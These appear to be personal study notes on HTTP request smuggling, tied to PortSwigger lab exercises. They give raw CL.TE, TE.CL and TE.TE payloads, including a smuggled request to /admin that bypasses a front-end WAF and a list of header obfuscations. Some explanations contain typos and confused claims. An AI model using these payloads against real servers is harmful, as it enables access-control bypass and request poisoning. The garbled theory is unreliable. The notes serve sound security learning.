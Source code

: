## HTTPS request smuggle
- Everything is there to test in first image.
![Detect](<../images/content-smuggle/confirm logic.png>) 
- Frontend WAF can be bypassed using smuggling.
- For doing exploit, where the backend uses TE then uses 0 for first chunk so that next thing is smuggled payload
  ```
  Content-Length: 65
  Transfer-encoding: chunked

  0

  POST /admin HTTP/1.1
  Content-Length: 14
  HOST: localhost
  X
  ``` 
- While appending the smuggled payload, have the header name added as value, not in the key of header`X: X`
- Send the thing twice to remove if duplicate header problem is coming
- In `Transfer-Encoding: chunked`, number of bytes are given in hex

TODO: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl 
Complete the rest : https://portswigger.net/web-security/request-smuggling/exploiting
### How to find
- Downgrade the request to http1.1 and make POST request using right-click dropdown
- Enable carriage return in request
- Get this request working and then only proceed to next step
#### CL.TE 
##### Detect
- Check if `CL.TE` is present ![CL.TE Differntial response](../images/content-smuggle/CL.TE.png)
- Confirm payload
    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 6
    Connection: keep-alive

    0
    
    X
    ```
- Since the front-end server uses the Content-Length header, it will forward only part of this request, omitting the X. The back-end server uses the Transfer-Encoding header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay. 
- The below is for utilising the smuggle to add header.
    ```
    POST / HTTP/1.1
    HOST: 89.207.132.170
    Connection: keep-alive
    Content-Length: 6
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked
    \r\n
    0\r\n\
    \r\n\
    X-Ignore: X
    ```
  - remove extra `\r\n\` which is due to copy paste
  - Fist disable the update header content length to check if this is succeptilbe and then enable it to smuggle the request
  - Mind that there is no `\r\n\` after `X-Ignore: X` because next get request will be in new line if added
##### Poison
Use the subsequent payload with extra G and full content-length so that poisoning could occur

#### TE.CT
- Detect what Frontend and backend is using: 
  - Frontend:
      TE if request is invalid/rejected
      ```
      Transfer-Encoding: chunked
      Content-Length: 6
      Connection: keep-alive

      3
      abc
      X
      ```
  - Backend:
      ![TE-CL Detect](../images/content-smuggle/TE.CL-detect.png) TE if request is timed out 
      ```
      Transfer-Encoding: chunked
      Content-Length: 6
      Connection: keep-alive

      0
      
      X
      ```
- Confirm the request using the payload in the form of 2 request:![Confirm payload](../images/content-smuggle/confirm-payload.png) 
  a. Attack request (see the specific section for the payload)
  b. Normal request
    ```
    POST / HTTP/1.1
    HOST: 89.207.132.170
    Connection: keep-alive
    Content-Length: 60
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked
    
    1
    x
    0
    
    ```
![TE.CL](../images/content-smuggle/TE.CL.png)
- Differential attack method
  - Attach request (contains posioning payload)
  - Normal request (normal request)


### Theory
  - Always done in POST request not GET request
  - works in http1.1 ( does not close connection with every request, but if you want to close it then connection: close)
    - http pipeline which is stack queue of request
  - clrf \r\n`` means new line
  - `Content-Length`: length of context body in first line and then next line gives the content length of the next line
    e.g. 
    ```
    
    GET / HTTP/1.1
    Content-Length: 7
    \r\n
    apple\r\n\
    ```
  - `Transfer-Encoding: chunked`: it looks for `\r\n\` to know the end of the content body
    e.g. 
    ```
    GET / HTTP/1.1 \r\n\
    Transfer-Encoding: chunked\r\n\
    \r\n\
    1\r\n\
    a\r\n\
    6\r\n\
    hello\r\n\
    2\r\n\
    hi\r\n\
    \r\n\
    ```
  - what if both are given `Content-Length` and `Transfer-Encoding` then `Content-Length` will be ignored in http1.1
  - We have Frontend server(e.g. loadbalancer: ngrok) and Backend server(e.g. service). If multiple requests are done then all of them is joined in a single TCP connection using http pipelining.
    - ![step1](../images/content-smuggle/smuggle-0.png)
    - ![step2](../images/content-smuggle/smuggle-1.png)
    - ![step3](../images/content-smuggle/smuggle-2.png)
  - Poisoned `CL.TE` means if both are present then CL will be ignored 
  - Similarly `TE.CT` means if both are present then TE will be ignored
  - Similary `TE.TE` means if both are present then TE will be checked


### TE.TE
We can same header with little bit of obfuscated values and then smuggle the request. There is one header which will be correct and it will be removed from header when it reaches to backend. If the bad header is reached to backend with distorted header and it will lead the backend to use `Context-length` header instead of `Transfer-Encoding` header.
![TE obfuscation](../images/content-smuggle/TE.TE.png)
```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```


Miscellaneous
![Count bytes](../images/content-smuggle/misc.png)
- Always write the hex bytes into the count
- TE.TE
  ```
    
  Transfer-encoding: chunked
  Transfer-encoding: xchunked
  Content-Length: 4

  25
  GPOST / HTTP/1.1
  Content-Length: 6

  0

  ```